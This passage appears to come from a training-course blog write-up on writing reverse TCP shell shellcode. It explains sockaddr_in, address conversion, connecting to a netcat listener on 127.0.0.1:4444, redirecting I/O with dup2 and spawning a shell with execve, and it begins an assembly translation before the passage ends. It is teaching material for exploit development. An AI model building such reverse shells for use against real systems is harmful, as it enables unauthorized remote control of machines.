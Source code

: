 ```cpp
client_address.sin_addr.s_addr = "127.0.0.1";
```

The reason resides in the definition of the [sockaddr_in](https://man7.org/linux/man-pages/man7/ip.7.html):

```cpp
struct sockaddr_in {
    sa_family_t    sin_family; /* address family: AF_INET */
    in_port_t      sin_port;   /* port in network byte order */
    struct in_addr sin_addr;   /* internet address */
};

/* Internet address */
struct in_addr {
    uint32_t       s_addr;     /* address in network byte order */
};
```

The variable `sin_addr` isn't simply a string (or a `char` array): it's an `in_addr` struct, so we need to convert the string first.

According to [this website](https://web.archive.org/web/20201128162706/https://www.gta.ufrj.br/ensino/eel878/sockets/inet_ntoaman.html), there are two options:

- `inet_addr`, an old function and theorically deprecated
- `inet_aton`, which is the recommended way

After that:

- the function `connect()` is used for connecting the newly-created socket to `127.0.0.1:4444` (a netcat listener running on the same machine)
- input/output/error is redirected to the socket through the use of the `dup2` function.

Lastly, the syscall `execve` spawns an `SH` shell.

Here's what's different from my first attempt at the `Bind Shell TCP Shellcode`: it seems you don't need to manage the reception of commands and their execution, like I did previously (in the first assignment) using the functions `recv`, and `system`.

In fact, after you correctly redirect input/output/error to the remote socket, and spawn a shell, everything else is performed automatically by the system.

### Assembly

Follows the first piece of code we need to convert into Assembly code:

```cpp
int main() {
    int client_socket_fd;
    char *empty[] = { 0 };
    struct sockaddr_in client_address;

    client_socket_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
```

As for the 1st assignment, a socket can be created by means of the `socketcall` system function:

